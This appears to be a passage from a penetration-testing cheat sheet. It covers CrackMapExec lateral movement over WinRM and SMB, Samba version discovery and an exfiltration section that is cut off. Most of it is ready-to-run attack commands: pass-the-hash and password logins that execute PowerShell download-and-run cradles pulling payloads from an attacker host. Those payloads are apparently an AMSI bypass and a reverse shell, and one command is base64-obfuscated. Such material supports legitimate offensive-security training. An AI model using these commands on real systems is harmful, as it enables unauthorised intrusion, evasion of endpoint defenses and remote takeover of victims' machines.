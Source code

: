 ```console
crackmapexec winrm 172.16.80.24 -u brie -p fn89hudi1892r -x "powershell -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA0ADkALgAxADAANwAvAG4AaQBlAHIAaQAuAHAAcwAxACIAKQA7AEkARQBYACgATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANAA5AC4AMQAwADcALwByAHUAbgAtAHMAaABlAGwAbABjAG8AZABlAC0ANgA0AGIAaQB0AHMALgBwAHMAMQAiACkACgA="
```

#### CrackMapExec - SMB

With Hash

```console
crackmapexec smb 172.16.21.22 -u gouda -H 09238831b1af5edab93c773f56409d96 -x "powershell.exe IEX(New-Object Net.Webclient).downloadString('http://192.168.42.42/4msibyp455.ps1');IEX(New-Object Net.Webclient).downloadString('http://192.168.42.42/dameelreversooo.ps1')"
```

With Hash + Domain

```console
crackmapexec smb 172.16.21.22 -d example.com -u cuartirolo -H 09238831b1af5edab93c773f56409d96 -x "whoami"
```

With password

```console
smb 172.16.21.22 -u administrator -p fn89hudi1892r -x "powershell.exe IEX(New-Object Net.Webclient).downloadString('http://192.168.42.42/dameelreversooo.ps1')"
```

####

#### Version (nmap didn't detect it)

Sometimes nmap doesn't show the version of Samba in the remote host, if this happens, a good way to know which version the remote host is running, is to capture traffic with wireshark against the remote host on 445/139 and in parallel run an smbclient -L, do a follow tcp stream and with this we might see which version the server is running.

{{< image src="/images/cheatsheet/smb-version-wireshark.png" position="center" style="border-radius: 8px;" >}}

## Exfiltration

### Samba

Generate a samba server with Impacket:

```console
impacket-smbserver tools /home/kali/tools
```

#### Mount in Windows

Mounting it in Windows with Powershell:
